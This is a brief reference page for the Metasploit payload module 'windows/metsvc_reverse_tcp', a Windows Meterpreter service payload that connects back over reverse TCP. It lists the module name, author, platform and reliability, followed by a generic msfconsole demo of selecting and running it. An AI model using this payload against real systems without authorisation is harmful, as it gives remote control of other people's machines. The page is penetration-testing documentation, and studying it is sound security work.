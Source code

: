 ## Windows Meterpreter Service, Reverse TCP Inline

Stub payload for interacting with a Meterpreter Service


## Module Name
payload/windows/metsvc_reverse_tcp

## Authors
hdm





## Platforms
win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/metsvc_reverse_tcp
msf payload(metsvc_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(metsvc_reverse_tcp) > set TARGET <target-id>
msf payload(metsvc_reverse_tcp) > show options
   ... show and set options ...
msf payload(metsvc_reverse_tcp) > run
```
    
    